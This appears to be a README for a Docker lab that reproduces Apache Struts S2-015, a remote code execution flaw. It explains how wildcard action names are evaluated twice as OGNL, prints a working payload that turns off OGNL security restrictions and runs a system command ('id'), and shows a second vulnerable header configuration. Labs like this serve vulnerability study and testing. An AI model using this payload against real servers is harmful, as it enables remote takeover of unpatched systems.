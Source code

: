 # S2-015 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.3.14.2

Details: http://struts.apache.org/docs/s2-015.html

## Setup

```
docker-compose build
docker-compose up -d
```

## Reference

Struts 2 allows define action mapping base on wildcards, like in example below:

```xml
<package name="S2-015" extends="struts-default">
    <action name="*" class="com.demo.action.PageAction">
        <result>/{1}.jsp</result>
    </action>
</package>
```

If a request doesn't match any other defined action, it will be matched by * and requested action name will be used to load JSP file base on the name of action. And as value of {1} is threaten as an OGNL expression, thus allow to execute arbitrary Java code on server side. This vulnerability is combination of two problems:

1. requested action name isn't escaped or checked agains whitelist
2. double evaluation of an OGNL expression in TextParseUtil.translateVariables when combination of $ and % open chars is used.

## Exploit

Payload as follows：

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}
```

Result:

![](01.png)

In addition to the above situation, S2-015 has another case of code execution:

```xml
<action name="param" class="com.demo.action.ParamAction">
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.fxxk">${message}</param>
    </result>
</action>
```

Result:

![](02.png)
